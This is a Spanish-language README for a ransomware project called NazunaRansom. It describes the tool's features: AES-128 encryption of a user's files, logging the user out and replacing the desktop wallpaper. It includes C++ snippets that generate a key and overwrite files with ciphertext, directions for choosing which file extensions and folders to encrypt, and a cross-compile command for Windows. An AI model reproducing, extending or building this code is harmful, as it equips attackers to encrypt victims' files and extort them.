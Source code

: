 # NazunaRansom
Nazuna Ransomware v1, es un ransomware inspirado en mi waifu (Nazuna)

### Caracteristicas

- Usa cifrado AES-128 en modo CBC
- Cierra la sesion del usuario
- Cambia el fondo de pantalla
- Cifra los subdirectorios de un directorio dado

### Funciones de cifrado

**CryptAcquireContext**

```c++
if (!CryptAcquireContext(&nazuna.hProv, NULL, MS_ENH_RSA_AES_PROV, PROV_RSA_AES, 0)) {
  if (!CryptAcquireContext(&nazuna.hProv, NULL, MS_ENH_RSA_AES_PROV, PROV_RSA_AES, CRYPT_NEWKEYSET)) {
    return false;
  }
}
```
En el primer if trata de obtener el identificador del contenedor CSP, ```nazuna.hProv``` funciona como un puntero que almacena el identificador CSP, si no se puede obtener el identifcador se vuelva a llamar a ```CryptAcquireContext``` con ```CRYPT_NEWKEYSET``` para crear un contenedor de claves en CSP

**CryptGenKey**

```c++
CryptGenKey(nazuna.hProv, CALG_AES_128, CRYPT_EXPORTABLE, &nazuna.hkey);
```
Genera una key AES-128 de acuerdo al identificador del CSP y la key la almacena en ```nazuna.hkey```

**CryptEncrypt**

```c++
CryptEncrypt(nazuna.hkey, 0, true, 0, buf, &bytes_leer, BUF_LEN);
```
Cifra los datos de acuerdo al CSP, ```buf``` es un puntero al buffer datos que contiene los datos que se van a cifrar, ```bytes_leer``` es la cantidad de bytes que se van a cifrar, que son los bytes del archivo original, esta funcion tambien funcionara para que el buffer cifrado se sobreescriba por el original 

### Modificaciones

Dentro de la funcion ```recorrer_dir``` puedes especificar las extensiones de los archivos que quieres que se cifren:

```c++
if (extension == ".txt" || extension == ".cpp" || extension == ".pdf" || extension == ".docx" || extension == ".xlsx")
```

En la funcion ```main``` puedes especificar otro directorio que se va a cifrar

```c++
string ruta = filesystem::path(string(getenv("USERPROFILE")) + "\\Desktop").string();
```
Solo modifica ```Desktop``` por otra, ej: ```Documents```

### Compilado
Yo lo compile desde GNU/Linux con el comando

```bash
x86_64-w64-mingw32-g++ -o NazunaRansom NazunaRansom.cpp -lbcrypt -static -static-libgcc -static-libstdc++ -lurlmon
```

![](https://github.com/ic4rta/NazunaRansom/blob/main/Nazuna_Ransom_Fondo.jpg)
